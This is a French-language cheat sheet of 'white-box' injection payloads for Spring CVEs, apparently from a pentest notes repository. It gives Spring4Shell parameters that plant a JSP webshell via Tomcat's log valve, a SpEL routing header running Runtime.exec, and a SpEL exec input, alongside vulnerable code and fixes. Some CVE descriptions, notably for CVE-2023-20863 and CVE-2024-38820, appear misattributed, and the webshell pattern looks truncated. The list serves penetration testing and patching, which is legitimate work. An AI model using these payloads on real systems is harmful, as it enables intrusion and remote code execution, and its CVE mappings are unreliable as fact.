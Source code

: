 # Spring core

- Payloads d’injection endpoints Spring Core (boîte blanche)
  - CVE-2022-22965 (Spring4Shell)
    - Description : RCE via data binding, injection de propriétés internes sur Tomcat avec JDK ≥ 9.
    - Versions vulnérables : Spring Framework 5.2.0 à 5.2.19, 5.3.0 à 5.3.17
    - Exemple de code vulnérable :
      ```
      @PostMapping("/user")
      public String addUser(@ModelAttribute User user) {
          return "ok";
      }
      ```
    - Payloads boîte blanche :
      - POST data :
        ```
        class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bf%7Di
        class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
        class.module.classLoader.resources.context.parent.pipeline.first.directory=/usr/local/tomcat/webapps/ROOT
        class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell
        class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
        ```
      - Permet d’écrire un webshell dans le répertoire web.
    - Correctif :
      - Mettre à jour Spring Framework ≥ 5.2.20 ou ≥ 5.3.18
      - Restreindre le binding avec `@InitBinder`
      - Désactiver le binding global sur les propriétés sensibles
  - CVE-2022-22963 (Spring Cloud Function)
    - Description : RCE via injection SpEL dans les headers HTTP, exécutant du code arbitraire.
    - Versions vulnérables : Spring Cloud Function 3.1.6, 3.2.2 et antérieures
    - Exemple de code vulnérable :
      ```
      @Bean
      public Function<String, String> demo() {
          return value -> value.toUpperCase();
      }
      ```
    - Payload boîte blanche :
      - Header HTTP :
        ```
        spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec('id')
        ```
      - Permet l’exécution de commandes système.
    - Correctif :
      - Mettre à jour Spring Cloud Function ≥ 3.1.7 ou ≥ 3.2.3
      - Désactiver l’évaluation SpEL dans les headers
  - CVE-2023-20863 (SpEL Expression DoS)
    - Description : Evaluation non filtrée d’expressions SpEL pouvant causer un DoS ou un accès non autorisé.
    - Versions vulnérables : Spring Framework < 5.2.24, < 5.3.27, < 6.0.8
    - Exemple de code vulnérable :
      ```
      ExpressionParser parser = new SpelExpressionParser();
      parser.parseExpression(userInput).getValue();
      ```
    - Payload boîte blanche :
      - userInput :
        ```
        new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('sleep 10').getInputStream()).next()
        ```
      - Peut provoquer un blocage ou une exécution de commande.
    - Correctif :
      - Mettre à jour Spring Framework ≥ 5.2.24, ≥ 5.3.27, ≥ 6.0.8
      - Ne jamais parser d’input utilisateur sans filtrage strict
  - CVE-2024-38820 (Désérialisation non sécurisée)
    - Description : Désérialisation d’objets non fiables menant à une exécution de code arbitraire.
    - Versions vulnérables : Spring Framework 5.x et 6.x (avant correctif 2024)
    - Exemple de code vulnérable :
      ```
      ObjectInputStream ois = new ObjectInputStream(inputStream);
      Object obj = ois.readObject();
      ```
    - Payload boîte blanche :
      - Envoyer un objet Java sérialisé malveillant sur l’endpoint acceptant le flux binaire.
    - Correctif :
      - Ne jamais désérialiser d’objets non fiables
      - Utiliser des formats sûrs (JSON, YAML) avec des parseurs sécurisés
